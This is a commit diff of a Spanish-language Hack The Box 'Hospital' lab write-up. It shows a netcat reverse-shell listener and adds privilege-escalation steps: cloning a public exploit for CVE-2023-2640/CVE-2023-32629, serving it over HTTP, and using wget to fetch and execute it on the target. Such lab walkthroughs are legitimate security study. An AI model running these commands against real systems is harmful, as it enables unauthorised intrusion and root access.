

Before and after one commit to S4mma3l/Proyectos-Python, a Markdown page: Hack_the_Box/Hospital/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Hospital.Hack_the_Box

```diff
--- a/Hack_the_Box/Hospital/README.md
+++ b/Hack_the_Box/Hospital/README.md
@@ -252,3 +252,27 @@ a nuestro equipo de la siguiente forma:
 
 y nos ponemos en escucha:
 nc -lnvp <nuestro_puerto>
+
+copiamos en la carpeta exploit la siguiente vulneravilidad
+
+❯ git clone https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git
+
+ingresamos a la carpeta
+
+❯ cd CVE-2023-2640-CVE-2023-32629
+
+creamos un servidor de python
+
+python3 -m http.server
+
+en la maquina en la carpeta de tmp nos desacrgamos el exploit con wget
+
+wget 10.10.14.110:8000/exploit.sh
+
+le damos permisoa de ejecucion con
+
+chmod +x <exploit.sh>
+
+y lo ejecutamos
+
+./exploit.sh
```
